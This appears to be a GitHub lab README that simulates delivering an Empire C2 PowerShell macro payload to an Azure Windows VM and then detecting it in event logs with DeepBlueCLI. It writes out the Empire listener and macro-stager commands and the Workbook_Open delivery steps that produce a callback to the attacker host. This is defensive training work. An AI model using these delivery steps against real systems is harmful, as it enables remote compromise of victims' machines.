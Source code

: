 # ⚔️ Empire Macro Payload Detection using DeepBlueCLI – Azure Edition

## 🎯 Project Goal
This project simulates the execution of a macro-generated PowerShell payload from Empire on a Windows VM hosted in Microsoft Azure. The objective is to capture and analyze the suspicious PowerShell activity in the Windows Event Log using [DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI), an open-source threat hunting and log analysis tool.

## ☁️ Environment Overview
| Component            | Details                                  |
|---------------------|------------------------------------------|
| Attacker Machine     | Kali Linux 2024.2 Gen2 (Azure VM)        |
| Victim Machine       | Windows 10/11 (Azure VM with Office)     |
| C2 Framework         | Empire by BC-Security                    |
| Payload Type         | PowerShell macro payload (`macro.py`)    |
| Detection Tool       | DeepBlueCLI                              |

## 🧪 Steps Performed

### 1. Setup in Azure
- Deployed Kali Linux 2024.2 (Empire installed)
- Deployed Windows 10/11 VM with Microsoft Excel and logging enabled
- Ensured both VMs are on the same virtual network with allowed port access (default: 1337)

### 2. Start Empire Listener on Kali
```bash
cd /opt/Empire
sudo ./empire
```

Inside Empire:
```bash
uselistener http
set Host http://<KALI-IP>:1337
execute
```

### 3. Generate PowerShell Macro Payload
```bash
usestager macro
set Listener http
generate
```

Output: Obfuscated PowerShell command using base64 encoding

Copy the payload into an Excel macro:

Open Excel → Press Alt + F11 → Paste into ThisWorkbook > Workbook_Open()

### 4. Execute Payload on Windows VM
Open the .xlsm file on the Windows VM

Enable Macros when prompted

Empire receives a connection (callback)

PowerShell payload executes silently

### 5. Analyze Windows Event Logs with DeepBlueCLI
Install and Run DeepBlueCLI
```powershell
git clone https://github.com/sans-blue-team/DeepBlueCLI.git
cd DeepBlueCLI
.\DeepBlue.ps1 -Log C:\Windows\System32\winevt\Logs\Security.evtx
```

Example Detection Output
```
[!] Suspicious PowerShell command detected:
Event ID 4104 - Encoded command string used
Parent Process: EXCEL.EXE
Command Line: powershell.exe -enc JAB...
```

## 🧠 Key Detection Artifacts
| Event ID | Description |
|----------|-------------|
| **4104** | PowerShell ScriptBlock Logging (obfuscated base64) |
| **4688** | New process created – Excel spawning PowerShell |
| **EventLog** | Analyzed by DeepBlueCLI for attacker techniques |

## 🔐 Defender Takeaways
- Obfuscated PowerShell commands can still be logged and detected with proper configuration.
- Even fileless payloads (like this macro) leave forensic footprints.
- DeepBlueCLI helps defenders quickly identify red flags inside `Security.evtx`.

## 📸 Screenshots
Add your screenshots to the `/screenshots` folder:
- `macro_code.png`: VBA macro in Excel
- `empire_listener.png`: Empire receiving the callback
- `event_log_4104.png`: Event Viewer showing suspicious PowerShell
- `deepbluecli_output.png`: Output from DeepBlueCLI

## Final Notes
This lab uses **no actual exploitation** or privilege escalation. It focuses purely on:
- Payload delivery simulation
- Logging
- Detection and analysis

## 📅 Presentation Date
May 31, 2025 @ BSidesRGV
